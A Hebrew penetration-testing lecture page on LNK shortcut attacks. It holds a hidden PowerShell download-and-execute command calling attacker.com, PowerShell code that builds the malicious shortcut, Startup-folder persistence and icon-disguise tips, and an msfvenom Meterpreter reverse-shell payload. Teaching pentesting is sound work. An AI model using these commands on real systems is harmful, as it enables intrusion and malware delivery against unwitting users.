

repository: AmitPinchasi/amittech · page: בודק-חדירות/5 - תקיפת דומיין בסיסית/5.5 - תקיפת LNK File Attack/5.5 - תקיפת LNK File Attack - הרצאה/index.html · generator: mkdocs

### **תקיפת LNK File Attack**

קובצי **LNK** (קיצור דרך ב-Windows) הם קבצים שנוצרו כדי להפנות לקבצים או תוכניות אחרות, אך ניתן לנצל אותם לתקיפה על ידי החדרת פקודות זדוניות שיבוצעו אוטומטית כאשר המשתמש פותח את הקובץ. התקפה זו מאפשרת **הרצת קוד מרחוק (RCE), גניבת creds וטעינת נוזקות** ללא צורך בהרשאות ניהול.

### **הבנת הפגיעות**

בדרך כלל, קובץ **LNK** מפנה לתוכנית לגיטימית, אך ניתן לשנות את היעד כך שיפעיל **פקודה זדונית**.  
התקיפה פועלת כך:

1. התוקף יוצר קובץ `shortcut.lnk` שבו מוגדר **Payload זדוני**.
    
2. כאשר המשתמש פותח את הקובץ, **הפקודה רצה ברקע** מבלי שהמשתמש יחשוד.
    
3. ניתן לנצל זאת כדי **להריץ PowerShell, לגנוב NTLM Hashes או להתחבר לשרת של התוקף**.
    

דוגמה לתוכן LNK זדוני:

```plaintext
C:\Windows\System32\cmd.exe /c powershell -ExecutionPolicy Bypass -NoProfile -WindowStyle Hidden -Command "IEX (New-Object Net.WebClient).DownloadString('http://attacker.com/payload.ps1')"
```
הפקודה למטה מורידה קובץ powershell מאתר של התוקף ומריצה אותו.

### **בניית LNK זדוני עם PowerShell**

ניתן ליצור קובץ **LNK** זדוני בעזרת PowerShell:

```powershell
$WshShell = New-Object -ComObject WScript.Shell
$Shortcut = $WshShell.CreateShortcut("C:\Users\Public\Documents\malicious.lnk")
$Shortcut.TargetPath = "C:\Windows\System32\cmd.exe"
$Shortcut.Arguments = "/c powershell -ExecutionPolicy Bypass -NoProfile -WindowStyle Hidden -Command `"IEX (New-Object Net.WebClient).DownloadString('http://attacker.com/rev.ps1')`""
$Shortcut.Save()
```

### **הדבקת LNK במקום אסטרטגי**

לאחר יצירת קובץ ה-LNK, ניתן **למקם אותו באחד הנתיבים הבאים כדי להבטיח הפעלה אוטומטית**:

- ב**Startup Folder** - קובץ זדוני שיפעל עם הפעלת המחשב.
    
    ```plaintext
    C:\Users\<USER>\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\
    ```
    
- ב**USB Devices** - יצירת LNK בכונן USB, כך שכאשר הקורבן יפתח את הקובץ, הקוד ירוץ.
    
- ב**Network Shares** - יצירת LNK בכונן משותף.
    
- **משחקי Social Engineering** - שינוי האייקון של הקובץ כך שייראה כמו קובץ תמונה, PDF או תיקייה.
    

### **הרצת Meterpreter דרך LNK**

ניתן להשתמש ב-Metasploit כדי ליצור LNK שמריץ Meterpreter:

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Attacker-IP> LPORT=4444 -f exe > shell.exe
```

כעת ניצור LNK שמריץ את הקובץ:

```powershell
$WshShell = New-Object -ComObject WScript.Shell
$Shortcut = $WshShell.CreateShortcut("C:\Users\Public\Documents\malicious.lnk")
$Shortcut.TargetPath = "C:\Windows\System32\cmd.exe"
$Shortcut.Arguments = "/c start C:\Users\Public\Documents\shell.exe"
$Shortcut.Save()
```

לאחר שהמשתמש יפתח את קובץ ה-LNK, התוקף יקבל **Meterpreter Shell**.
